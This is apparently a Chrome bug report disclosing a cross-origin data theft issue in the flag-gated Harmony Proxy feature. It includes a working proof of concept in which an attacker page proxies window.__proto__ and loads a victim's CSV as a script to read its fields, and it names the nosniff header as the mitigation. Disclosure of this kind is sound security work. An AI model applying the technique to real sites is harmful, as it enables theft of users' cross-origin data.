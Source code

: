 <b>VULNERABILITY DETAILS</b>
Harmony proxy can be used for cross-origin info theft in certain situations like the one shown below.
Currently harmony proxy is disabled by default and can be enabled by chrome://flags/#enable-javascript-harmony.
It means this is not a risk for now, but I am reporting it to avoid a future risk.

<b>VERSION</b>
Chrome Version: 36.0.1985.125 m (production release)
Operating System: Windows 7 SP1

<b>REPRODUCTION CASE</b>
Let's suppose victim's web page serves CSV (or some text-like data).

<!-- ************** http://victim/test.csv ************** -->
<?php
header('Content-Type: text/csv; charset=UTF-8');
header('Content-Disposition: attachment; filename="test.csv"');
?>
foo,bar,123

Attacker's page steals this CSV by utilizing harmony proxy.

<!-- ************** http://attacker/ ************** -->
<body>
<script>
window.__proto__ = Proxy.create({
    get: function(target, name) {console.log("data=" + name)}
});
</script>
<script src="http://victim/test.csv"></script>
</body>

Attacker's page prints "data=foo" and "data=bar" in the console.

Note that we can thwart this type of attack by "X-Content-Type-Options: nosniff" header
(That is the very reason why the header was introduced).
